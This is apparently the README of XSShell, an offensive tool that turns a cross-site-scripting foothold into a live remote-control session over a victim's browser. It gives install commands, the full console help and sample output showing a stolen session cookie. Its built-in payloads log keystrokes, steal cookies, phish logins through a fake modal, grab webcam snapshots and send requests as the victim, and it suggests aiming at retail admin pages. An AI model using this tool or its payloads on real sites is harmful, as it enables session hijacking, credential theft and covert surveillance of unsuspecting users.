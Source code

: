 XSShell
=======

XSShell is a cross-site-scripting reverse shell... Okay, well maybe it's not a true reverse shell, but it will allow you to interact in real time with an XSS victim's browser.

Just run the xsshell binary to setup your listener endpoint, do your XSS thing to get the exploit js onto the victim's browser, and as soon as they run it you should see something like this popup in your console:

```
====== start socket: 1, header: AmaaKrM= ======
socket connected: 1
    user agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/17.17134 
    page url:   http://example.com/ 
    referrer:   http://google.com/
    cookies:    phpsessid=abababababababab
======   end socket: 1, header: AmaaKrM= ======
```

Once you have a connection you can execute any javascript file you want on the browser, and have that script return data to your console. This may not seem very useful at first, but it allows you to be more tactical and react in real time to the environment that the script is running on. Environments like say... an admin page used to approve and manage orders placed on a retail site :)

XSShell also comes with a number of premade XSS payloads to use:

- \alert - send a js alert message
- \cs    - get cookies and any updates to the cookies
- \gi    - download all images on the page
- \kl    - key logger
- \ll    - list all links on the page
- \src   - download the current page source
- \pfl   - show the user a modal and prompt them to login
- \xhr   - make xhr requests in the context of the victim's browser

Install
-------

To install xsshell run:
```bash
go get github.com/raz-varren/xsshell
go install github.com/raz-varren/xsshell
```

Mods
------

If you modify any of the JS files in this package, make sure you run:
```bash
go generate github.com/raz-varren/xsshell...
go install github.com/raz-varren/xsshell
```

This will ensure that the updated files are packed into the binary.

Usage
-----

The xsshell command:
```
xsshell -h
Usage of xsshell:
  -cert string
    	ssl cert file
  -host string
    	websocket listen address
  -key string
    	ssl key file
  -log string
    	specify a log file to log all console communication
  -path string
    	websocket connection path (default "/s")
  -port string
    	websocket listen port (default "8234")
  -servdir string
    	specify a directory to serve files from. a file server will not be started if no directory is specified
  -servpath string
    	specify the base url path that you want to serve files from (default "/static/")
  -wrkdir string
    	working directory that will be used as the relative root path for any commands requiring user provided file paths (default "./")
```

Starting the shell console:
```
xsshell 
listening for sockets on :8234, at url path: /s
starting console
type \? to list available commands
xsshell > 
xsshell > \?
xsshell > \? \h \help: list available commands
xsshell > \alert:      send an alert message to the target set
xsshell >              usage: \alert ALERT_MESSAGE
xsshell > \cs:         get the current cookies from the target set's current page and any cookie updates.
xsshell > \emd:        return a list of media devices accessible to the target set's browser
xsshell > \ex:         print out the client exploit javascript
xsshell > \exm:        print out the minified version of the client exploit javascript
xsshell > \gi:         download all images on the target set's page. 
xsshell >              images will be stored in DOWNLOAD_DIR. 
xsshell >              relative file paths are relative to the path provided to -wrkdir
xsshell >              usage: \gi [DOWNLOAD_DIR]
xsshell >                  examples:
xsshell >                      \gi
xsshell >                      \gi /tmp/images
xsshell >                      \gi imgdir
xsshell > \kl:         start a keylogger on the target set
xsshell > \ll:         list out any links found on the target set's currently open page
xsshell > \pfl:        open a modal on the target set's page prompting them for a username and password
xsshell > \ps:         print out socket info for all actively connected websockets
xsshell > \q:          exit this program
xsshell > \sf:         send a javascript file to the target set and execute it. 
xsshell >              any data can be returned from the target set by calling `this.send(\"return data string\");` in the script. 
xsshell >              relative file paths are relative to the path provided to -wrkdir
xsshell >              usage: \sf FILE_PATH
xsshell > \sfl:        resend the last file that was sent using \sf, includes any new changes to the file
xsshell > \src:        get the target set's currently rendered page source
xsshell > \st:         set the websockets to target. one or more targets can be set with the following methods:
xsshell >              *        -targets all active websocket connections (default target set)
xsshell >              8        -target a single websocket connection belonging to that id number
xsshell >              1,2,8,10 -targets all websocket IDs in the comma separated list
xsshell >              4-16     -targets all websocket IDs from the lowest number listed to the highest number listed
xsshell >              4-       -targets all websocket IDs that are greater than or equal to the listed number
xsshell >              -16      -targets all websocket IDs that are less than or equal to the listed number
xsshell >              usage: \st TARGET_SET
xsshell >                  examples:
xsshell >                      \st *
xsshell >                      \st 2
xsshell >                      \st 2,4,7
xsshell >                      \st 10-15
xsshell >                      \st 6-
xsshell >                      \st -100
xsshell > \wcs:        attempt to take a snapshot from the target set's webcam, if one is available. 
xsshell >              images will be stored in DOWNLOAD_DIR. 
xsshell >              relative file paths are relative to the path provided to -wrkdir.
xsshell >              NOTE: using this command may prompt the target set for webcam access. 
xsshell >              the target set may reject the prompt, or ignore it entirely.
xsshell >              usage: \ws DOWNLOAD_DIR
xsshell >                  examples:
xsshell >                      \wcs /tmp/webcam_snaps
xsshell >                      \wcs snaps
xsshell > \xhr:        send an xhr request from the target set's current page
xsshell >              usage: \xhr HTTP_METHOD FULL_URL [CONTENT_HEADER] [POST_BODY]
xsshell >                  examples:
xsshell >                      \xhr GET https://google.com/
xsshell >                      \xhr POST https://google.com/ application/json {"hello": "world"}
xsshell > 
```

